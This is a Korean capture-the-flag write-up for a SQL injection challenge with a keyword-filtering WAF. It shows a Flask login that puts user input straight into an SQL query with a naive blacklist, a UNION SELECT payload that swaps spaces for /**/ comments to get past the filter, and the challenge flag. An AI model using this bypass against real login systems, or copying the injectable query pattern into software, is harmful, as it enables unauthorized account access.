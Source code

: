 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.3 SQLi_WAF_3"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-29T15:00:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10032/>

![3.3 SQLi WAF 3 1](/assets/images/writeup/web-hacking/knock-on/3-3_SQLi_WAF_3_1.png)

![3.3 SQLi WAF 3 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.3 SQLi WAF 3 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '\'', '"', ' ']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

### login()

---

```python
filtering_list = ['or', 'and', '\'', '"', ' ']
```

공백이 추가됨

|

|

|

## Exploit

```sql
union select 1,(select username from user limit 1,1),3 #
```

기존 쿼리에서 공백을 사용하지 않고 로그인을 시도해야 함

|

```sql
/**/
```

공백 자리를 주석으로 대체할 수 있음

맨 뒤 주석은 `--` 대신 `#`으로 해야함

|

|

|

## Payload
```python
username: \

password: union/**/select/**/1,(select/**/username/**/from/**/user/**/limit/**/1,1),3#
```

|

|

### FLAG

---

```python
K0{snow_white_is_beautiful}
```

|

---